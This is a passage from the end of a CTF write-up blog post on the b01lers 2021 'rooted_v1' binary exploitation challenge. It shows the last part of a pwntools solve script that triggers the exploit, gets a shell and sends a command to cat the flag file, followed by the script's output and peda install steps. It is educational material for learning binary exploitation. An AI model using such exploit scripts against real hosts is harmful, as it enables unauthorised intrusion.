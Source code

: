 ```python
    command("cd bin")  
    #grab bin data
    grab_file()
    #run exploit!
    pwn()
    #grab flag!
    p.sendlineafter("Admin!","cat /home/rooted/flag.txt")
    p.recvline()
    print(p.recvline())
```

Allright all we've done now is add the shellcode functionality into the script. The trick is we have to unhexlify the shellcode in order to actually send the byte array of the shellcode over the pipe. Once we run the script, a shell is popped we send a command to cat the flag. 
Lets check the output to see if it runs: 
```
$ python3 solve.py
[+] Opening connection to chal.ctf.b01lers.com port 2007: Done
b'bctf{ch2007_p2073c75_p47h5_n07_h4ck5}\n'
```

Hope you enjoyed this challenge, I sure learned alot about actually building a ctf challenge during this process, and had a great time along the way! I really wanna thank my ctf club officers, who have a GREAT ctf development workflow, that made developing this challenge much easier. 

The next post will go over mostly the changes of the more advanced binary in the rooted_v2 challenge, and skip all the steps I explained above! 

For full code, feel free to checkout the solve.py here at the challenge [repo](https://github.com/b01lers/b01lers-ctf-2021/tree/rooted_v1/pwn/rooted_v1/solve)

Happy Hacking and never stop learning! :)

#### Side Note:
peda is a great gdb frontend I love to use for stuff like this, if you want to install it: 
```bash
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```
